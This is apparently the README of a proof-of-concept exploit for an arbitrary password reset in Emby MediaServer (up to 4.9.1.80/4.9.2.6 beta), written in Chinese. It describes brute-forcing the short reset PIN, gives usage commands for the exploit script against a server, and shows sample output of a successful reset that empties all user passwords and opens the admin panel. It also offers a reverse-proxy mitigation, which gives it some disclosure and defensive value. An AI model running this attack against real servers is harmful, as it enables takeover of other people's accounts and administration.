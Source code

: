 # Emby MediaServer <= 4.9.1.80/4.9.2.6 beta 任意用户密码重置

也是老洞了，但一直没修，甚至最新版也存在，重置密码的 Pin 过短导致可以爆破。

临时缓解办法：考虑在反向代理上拦截 /emby/Users/ForgotPassword 和 /emby/Users/ForgotPassword/Pin 请求，并增加速率限制，当然这不治本。

## POC 用法

PIN 默认是 0721，一般能在几分钟内爆破出来，所有用户密码会重置为空，能直接登录管理后台。

```bash
$ docker run -d -p 8096:8096 emby/embyserver:v4.9.1.80
$ python main.py <server> [-u <user>] [-p <pin>]
$ python main.py http://localhost:8096

第1次尝试中
...
第5391次尝试中

===== 成功！ =====
重置的用户名：sdaflfjjkefnkjan
使用的PIN码：0721
总尝试次数：5391次
总用时：14.64秒
```

## 参考文献

https://www.exploit-db.com/exploits/41947

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpassword.html

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpasswordPin.html

http://localhost:8096/web/index.html#!/startup/forgotpasswordpin.html
